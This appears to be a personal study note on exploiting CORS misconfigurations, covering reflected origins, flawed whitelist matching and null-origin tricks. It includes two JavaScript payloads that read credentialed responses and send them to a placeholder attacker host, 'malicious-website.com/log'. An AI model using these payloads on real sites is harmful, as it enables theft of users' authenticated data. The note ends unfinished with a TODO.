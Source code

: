 Researches
https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties

# Host/Origin headers reflects to ACAO headers

Can be used to steal sensitive information from the arbitrary response.
 `Access-Control-Allow-Credentials: true` - means cookie will be added to the our malicious request. Such way we have access to methods that require authorization.
Example:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Error parsing Origin headers
Mistakes often arise implementing Origin whitelists.
For example, suppose an application grants access to all domains ending in: 
```
normal-website.com
```
  An attacker might be able to gain access by registering the domain: 
```
hackersnormal-website.com
```
 Alternatively, suppose an application grants access to all domains beginning with 
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```
##### Whitelisted null origin value
 The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
* Cross-origin redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.
There are different ways to set `Origin` to `null`, for example:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

TODO: finish the lab, portswigger appears to be broken

# Exploiting XSS via CORS trust relationships
#to-be-continued 